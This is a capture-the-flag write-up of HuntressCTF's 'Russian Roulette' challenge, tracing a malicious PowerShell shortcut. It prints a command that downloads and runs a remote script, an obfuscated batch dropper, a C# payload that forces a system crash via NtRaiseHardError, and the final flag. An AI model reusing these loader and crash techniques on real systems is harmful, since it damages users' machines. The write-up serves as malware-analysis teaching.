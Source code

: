 ```yaml
---
title: 2024 HuntressCTF - Russian Roulette
date: 2024-10-03T07:00:00-07:00
tags:   
image: /2024-HuntressCTF/rr.png
---
```


### Summary
```
Author: @JohnHammond

My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
```

### Steps

Downloaded the challenge file on my Windows VM downloads as russian_roulette.zip and unzipped it with the challenge password. Inside the .zip file was a powershell.lnk file. The target was powershell command executing a base64 encoded string. `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=`

Decoding the base64 string I see the powershell.lnk will execute this command:
```
iwr is[.]gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
```

Before executing this, I opt'ed to try to manually download and understand what this will be doing. I used powershell to execute `iwr is[.]gd/jwr7JD -o test.cmd`.  

Opening test.cmd in notepad++, I see a similar output like this:
```
挦獬਍敀档⁯景൦猊瑥甠扣㵷敳൴㨊›鿐菑苑뗐裑뗐臑苑닐룐近퀠₲닐뻐뻐뇐胑냐뛐뗐뷐룐룐‬뫐냐뫐퀠₸뿐菑苑뗐裑뗐臑苑닐룐近퀠₲胑뗐냐믐賑뷐뻐
<--->
```
Using Notepad++ and CyberChef I attempted various different encoding but was unsuccessful. I next opened the file with HxD and observed that part of the script was visual basic as I see the presence of `@echo off`.  However, not being able to interact with the file on windows, I moved the file to linux and found that every other line is a comment that is not related to the challenge, but causes the file to become corrupt. 
```vba
��&cls
@echo off
:: Древние тексты, вырезанные на каменных плитах, рассказывают истории забытых королей и воинов, которые жили и умирали ради идей, оставив след в самой ткани мироздания.
set x=set
:: Часы тикают, как неумолимые маркеры времени, напоминая, что каждое мгновение — это шанс изменить свою судьбу и оставить свой след на страницах истории.
%x% s= 
:: В глубинах океана таятся существа, о которых мы даже не подозреваем, и каждый их взмах плавника — это тайна, скрытая от людского взора в бескрайней синеве морских глубин.
%x%%s%zz==
:: Сердце горит, когда встречаешь родственную душу, словно огонь, который не может быть потушен ни ветром, ни дождем, а только усиливается с каждым мгновением рядом.
%x%%s%p%zz%/
:: Путешествия в воображении, как и путешествия в реальности, могут привести к удивительным открытиям и незабываемым встречам с персонажами, которые живут на грани воображаемого и реального.
%x%%s%ma%zz%a
:: Сердце горит, когда встречаешь родственную душу, словно огонь, который не может быть потушен ни ветром, ни дождем, а только усиливается с каждым мгновением рядом.
%x%%s%gm%zz%c
:: Путь воина не измеряется длиной дорог или высотой гор, которые ему пришлось преодолеть, а количеством испытаний, с которыми он столкнулся и которые закалили его дух.
%x%%s%qf%zz%m
:: Часы тикают, как неумолимые маркеры времени, напоминая, что каждое мгновение — это шанс изменить свою судьбу и оставить свой след на страницах истории.
%x%%s%h%zz%d
:: Каждый миг — это подарок, обёрнутый в невидимую бумагу ожиданий и надежд, готовый раскрыться и принести с собой новые впечатления, которые будут помнить долго.
%x%%s%ax%zz%e
:: Теплый ветер приносит с собой запахи далёких стран, где культура смешивается с историей, а каждый камень на мостовой хранит в себе тайны веков.
%x%%s%ds%zz%x
:: Путь воина не измеряется длиной дорог или высотой гор, которые ему пришлось преодолеть, а количеством испытаний, с которыми он столкнулся и которые закалили его дух.
%x%%s%rb%zz%i
:: Каждый миг — это подарок, обёрнутый в невидимую бумагу ожиданий и надежд, готовый раскрыться и принести с собой новые впечатления, которые будут помнить долго.
%x%%s%cu%zz%t
:: Даже самые тихие моменты в жизни, те, которые проходят незамеченными, могут стать источником вдохновения для великих дел и невероятных открытий, если прислушаться к их тихому шепоту.
<...>
```
To clean up the file, I executed `cat test.cmd| grep -v ::` and see this is a highly obfuscated vbs script, where the variables are defined in the `exitcodeAscii` variable.  This was similar to a challenge last year.  However, before manually deobfuscating, I decided to run this in windows and see what happens. Also note, I enabled powershell logging before hand. 

I launched the powershell.lnk file and noticed after a few seconds another powershell prompt opened on my system. Looking at the powershell event logs, I discovered this command being executed.
```powershell
Pipeline execution details for command line: $s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe". 
```
After spending some time researching plus using ChatGPT, I discoverd this was an AES decryption function. What we see here is is the following variables.
```
<legend>
c = Encrypted Content in base64
k = AES key
i = AES Initialization Vector.

c = RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw
k = /a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=
i = 9sXGmK4q9LdYFdOp4TSsQw==
```
Next, I used CyberChef to plugin these values.  First, I input `RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw` and used `From Base64` and then performed a AES Decrypt with the other values. 

![](/static/2024-HuntressCTF/rr-cyberchef.png)

I want to take a moment to explain the deobfuscation process. Looking at the .cmd file we see this:

```vbs
@echo off
set x=set
%x% s= 
%x%%s%zz==
%x%%s%p%zz%/
%x%%s%ma%zz%a
%x%%s%gm%zz%c
%x%%s%qf%zz%m
%x%%s%h%zz%d
%x%%s%ax%zz%e
%x%%s%ds%zz%x
%x%%s%rb%zz%i
%x%%s%cu%zz%t
%x%%s%qd%zz% 
%x%%s%%p%%ma%%s%z%zz%8639305 %% 8639208
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%z%
%x%%s%wp%zz%%=exitcodeAscii%
%x%%s%%p%%ma%%s%ab%zz%3403246 %% 3403148
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%ab%
%x%%s%v%zz%%=exitcodeAscii%
%x%%s%%p%%ma%%s%cy%zz%5276898 %% 5276799
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%cy%
%x%%s%e%zz%%=exitcodeAscii%
%x%%s%%p%%ma%%s%eu%zz%5631300 %% 5631200
```
What is happening is first the script will set the variable `x` to `set`.  To manually start deobfuscating you'll find all instance of `%x%` and replace that with `set`. 

After doing the find and replace, we see the script now starts to look like this:
```vbs
@echo off
set x=set
set s= 
set%s%zz==
set%s%p%zz%/
set%s%ma%zz%a
set%s%gm%zz%c
set%s%qf%zz%m
set%s%h%zz%d
set%s%ax%zz%e
set%s%ds%zz%x
set%s%rb%zz%i
set%s%cu%zz%t
set%s%qd%zz% 
set%s%%p%%ma%%s%z%zz%8639305 %% 8639208
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%z%
set%s%wp%zz%%=exitcodeAscii%
set%s%%p%%ma%%s%ab%zz%3403246 %% 3403148
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%ab%
set%s%v%zz%%=exitcodeAscii%
set%s%%p%%ma%%s%cy%zz%5276898 %% 5276799
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%cy%
set%s%e%zz%%=exitcodeAscii%
set%s%%p%%ma%%s%eu%zz%5631300 %% 5631200
```
Next, we see `s` is variable for a space. Again, we search for all  instances of `%s%` and replace it with a space. Continuing this logic down all the set values, we finally get this result:
```vbs
@echo off
set x=set
set s= 
set zz==
set p=/
set ma=a
set gm=c
set qf=m
set h=d
set ax=e
set ds=x
set rb=i
set cu=t
set qd= 
set /a z=8639305 %% 8639208
cmd /c exit %z%
set wp=%=exitcodeAscii%
set /a ab=3403246 %% 3403148
cmd /c exit %ab%
set v=%=exitcodeAscii%
set /a cy=5276898 %% 5276799
cmd /c exit %cy%
set e=%=exitcodeAscii%
set /a eu=5631300 %% 5631200
```
Now, the script is starting to come together.  The next spart we see 
```vbs
set /a z=8639305 %% 8639208
cmd /c exit %z%
set wp=%=exitcodeAscii%
set /a ab=3403246 %% 3403148
cmd /c exit %ab%
set v=%=exitcodeAscii%
set /a cy=5276898 %% 5276799
cmd /c exit %cy%
set e=%=exitcodeAscii%
set /a eu=5631300 %% 5631200
```

Next, set is doing a mathmatical operation by looking at the `/a` and that `%%` is looking for the remainder of the two values. To  test this interactively we can run `set /a z=8639305 % 8639208` (only 1 %), and we get a result of `97`.  What this tells us that `%z% = 97`. Looking at [AsciiCart.com](https://www.asciitable.com/) we see that the ASCII value for 97 is a lower case a. To coninue manually deobfuscating this script, we would replace all  instance of `%z%` with `a`.  Eventaully, we would get to a similar result that we saw in the Event Logs. 



Flag: flag{4e4f266d44717ff3af8bd92d292b79ec}